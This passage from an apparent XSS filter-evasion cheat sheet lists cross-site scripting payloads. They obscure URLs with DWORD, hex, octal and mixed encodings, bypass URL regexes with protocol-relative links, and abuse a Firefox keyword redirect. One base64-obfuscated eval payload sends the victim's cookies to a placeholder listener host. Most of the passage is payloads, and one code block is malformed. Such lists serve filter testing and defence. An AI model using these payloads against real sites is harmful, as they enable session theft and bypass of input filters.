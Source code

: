 DWORD Encoding
Note: there are other of variations of Dword encoding - see the IP Obfuscation calculator below for more details:

```js
<A HREF="http://1113982867/">XSS</A>
```

Hex Encoding
The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quotet is not required):

```js
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

Octal Encoding
Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc…:

```js
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

Base64 Encoding

```js
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
```

Mixed Encoding
Let’s mix and match base encoding and throw in some tabs and newlines - why browsers allow this, I’ll never know). The tabs and newlines only work if this is encapsulated with quotes:

```js
<A HREF="h
tt  p://6	6.000146.0x7.147/">XSS</A>

Protocol Resolution Bypass
// translates to http:// which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like (ht|f)tp(s)?:// (thanks to Ozh for part of this one). You can also change the // to \\\\. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL.

<A HREF="//www.google.com/">XSS</A>
```
Google “feeling lucky” part 1.
Firefox uses Google’s “feeling lucky” function to redirect the user to any keywords you type in. So if your exploitable page is the top for some random keyword (as you see here) you can use that feature against any Firefox user. This uses Firefox’s keyword: protocol. You can concatenate several keywords by using something like the following keyword:XSS+RSnake for instance. This no longer works within Firefox as of 2.0.

```js
<A HREF="//google">XSS</A>
```
